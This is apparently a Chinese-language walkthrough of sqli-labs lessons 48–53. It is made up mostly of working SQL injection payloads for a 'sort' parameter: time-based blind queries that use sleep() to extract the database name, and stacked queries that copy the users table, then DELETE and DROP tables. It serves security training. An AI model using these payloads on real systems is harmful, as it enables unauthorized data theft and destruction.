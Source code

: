 ```
```

#### 

## Less-48

**时间盲注-数字型**

过测试，这一关是数字型注入，页面不返回报错信息，要使用时间盲注

```
?sort=1 AND IF(LENGTH(database())=8,sleep(1),1)--+

?sort=1 AND IF(LEFT((SELECT database()), 1)='s',sleep(1),1)--+

?sort=1 AND IF(LEFT((SELECT database()), 8)='security',sleep(1),1)--+
```

## Less-49

**时间盲注-'**

```
?sort=1' AND IF(LENGTH(database())=8,sleep(1),1)--+

?sort=1' AND IF(LEFT((SELECT database()), 1)='s',sleep(1),1)--+

?sort=1' AND IF(LEFT((SELECT database()), 8)='security',sleep(1),1)--+
```

## Less-50,52

输入正常的参数，网页回显用户名列表。对 sort 参数使用单引号闭合，网页返回错误信息。

```
?sort=1'
```

和 Less 46 一样使用报错注入或时间注入就可以完成，此处用于测试堆叠注入。使用堆叠查询完成 Less 38 的样例。

```
?sort=1;CREATE TABLE WhiteMoon LIKE users;--+
?sort=1;INSERT INTO WhiteMoon SELECT * FROM users;--+
?sort=1;DELETE FROM WhiteMoon;--+
?sort=1;DROP TABLE WhiteMoon;--+
```

## Less-51,53

此处存在单引号闭合的字符型注入。

Less 47 一样使用报错注入或时间注入就可以完成，此处用于测试堆叠注入。

```
?sort=1';CREATE TABLE WhiteMoon LIKE users;--+
?sort=1';INSERT INTO WhiteMoon SELECT * FROM users;--+
?sort=1';DELETE FROM WhiteMoon;--+
?sort=1';DROP TABLE WhiteMoon;--+
```
